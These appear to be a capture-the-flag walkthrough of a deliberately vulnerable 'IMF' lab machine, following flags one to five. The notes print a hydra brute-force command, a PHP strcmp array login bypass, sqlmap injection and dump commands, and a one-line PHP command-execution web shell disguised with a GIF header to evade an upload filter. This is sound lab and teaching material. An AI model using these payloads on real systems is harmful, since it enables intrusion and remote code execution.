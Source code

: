 On the contact us page we get 3 emails:
```
rmichaels@imf.local -> Director
akeith@imf.local -> deputy Director
estone@imf.local -> chief of staff
```
***
### Flag 1
While checking the source code of this page we get the first flag:
`flag1{YWxsdGhlZmlsZXM=}`
![[Pasted image 20230715233303.png]]
the flag itself was base64 encoded said: `allthefiles`
*** 
### Flag 2
from the hist above:
we also get the second flag by decoding the names of the js files :
http://192.168.29.156/js/eVlYUnZjZz09fQ==.min.js -> 3
http://192.168.29.156/js/XUnRhVzVwYzNS.js -> 2
http://192.168.29.156/js/ZmxhZzJ7YVcxbVl.js -> 1
combining then we get the flag:
`flag2{aW1mYWRtaW5pc3RyYXRvcg==}` , hint: `imfadministrator`
***
## Flag 3
After a bit of finding , I thought maybe it was an endpoint and it was leading to a login page:
Ofcourse admin:admin didn't work:
![[Pasted image 20230716000606.png]]

This was the source code:
![[Pasted image 20230716000535.png]]

SQL injection maybe? but code said password is hard-coded , also error said 'invalid username' so username enum?
let's make the list:
```
roger
alexander
elizabeth
admin
imfadmin
rmichaels
akeith
estone
rmichaels@imf.local
akeith@imf.local
estone@imf.local
```

Nothing worked so I tried to automate the things , I used hydra to do so the command and the wordlists for the username and passwords are below:
```
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -s 80 -f http-get://192.168.90.184/imfadministrator
```
`seclists's Names/names.txt` and `rockyou.txt` for password
![[Pasted image 20230723231130.png]]
got: `aaliyah` and `123456`
That didn't work so I tried something different:
![[Pasted image 20230723231502.png]]
look how for the same username but different , something wasn't right so I tried some username that they won't give:
![[Pasted image 20230723231904.png]]
I'm telling y'all this so that you might see that this is what happens and people get stuck for hours
This is due to the fact that it loads the site with 200 but gives error text not response
So I used Burp:
![[Pasted image 20230723233008.png]]
I also tried brtfrcing the password , nothing worked , so I tried directory enum on this endpoint:
![[Pasted image 20230723234956.png]]
I also looked at the source code again , this had my curiosity:
![[Pasted image 20230723235128.png]]
If it doesn't say anything about password , just invalid username and all , then why it is taking the password as 'pass'
Maybe in the back-end they mean by hardcoded is the password is already set and they are comparing the pass string we give to the already set so maybe we have to deal with this function that compares the string? we can only guess...so maybe bypassing the strcmp function:
In the strcmp description by php we get this guy at last telling about the behaviour of the function:
![[Pasted image 20230725154610.png]]
We need to make sure that the pass array is empty so we can do this via two ways:
* way 1: burp intruder:
![[Pasted image 20230725161220.png]]

* way 2 : via `array('')` :
just paste the above payload in password field
![[Pasted image 20230725161112.png]]
`flag3{Y29udGludWVUT2Ntcw==}`
***
## Flag 4
hint: continueTOcms
![[Pasted image 20230725161421.png]]
Disallowed list:
![[Pasted image 20230725161444.png]]
Upload:
![[Pasted image 20230725161707.png]]
I tried this image , analyzed it and via exif tool I got this:
![[Pasted image 20230725162013.png]]
after using the -b flag:
and strings command we get:
![[Pasted image 20230725162740.png]]
inside the cms , pagename parameter:
![[Pasted image 20230725165735.png]]
when we make the sqlmap to make sure:
we have to supply our session id or else it'll reject:
```
sqlmap --url http://192.168.90.184/imfadministrator/cms.php?pagename=disavowlist --cookie='PHPSESSID=9rn93n6m80d9hbtk2c6rkc0o75'
```

![[Pasted image 20230725172337.png]]
we can do this manually :
`' AND '1'='1`
it's blind so we'll have to use sqlmap:
and via that we can find the tables via --tables options and dump them via:
```
sqlmap --url http://192.168.90.184/imfadministrator/cms.php?pagename=disavowlist --cookie='PHPSESSID=9rn93n6m80d9hbtk2c6rkc0o75' --dump -T pages 
```
![[Pasted image 20230725174023.png]]
![[Pasted image 20230725174110.png]]
scan the QR and find the flag `flag4{dXBsb2Fkcjk0Mi5waHA=}`
decode it and we get: `uploadr942.php`

When we go to this page we see this upload functionality:

![[Pasted image 20230726183026.png]]
We need to fool the WAF by passing it in the GIF format via adding the GIF98 in the start:
```
GIF98
<?php $c=$_GET['cmd']; echo `$c`;?>
```

![[Pasted image 20230726183136.png]]
`flag5{YWdlbnRzZXJ2aWNlcw==}`
![[Pasted image 20230726183826.png]]
agentservices